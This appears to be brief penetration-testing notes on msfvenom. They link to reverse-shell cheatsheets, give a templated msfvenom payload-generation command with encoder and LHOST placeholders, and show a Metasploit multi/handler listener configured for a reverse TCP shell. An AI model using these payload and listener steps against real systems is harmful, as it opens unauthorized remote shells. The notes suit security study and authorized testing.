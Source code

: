 https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom

https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/

msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>


msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) >

msf6 exploit(multi/handler) > grep yes options
   LHOST                   yes       The listen address (an interface may be specified)                                              
   LPORT  4444             yes       The listen port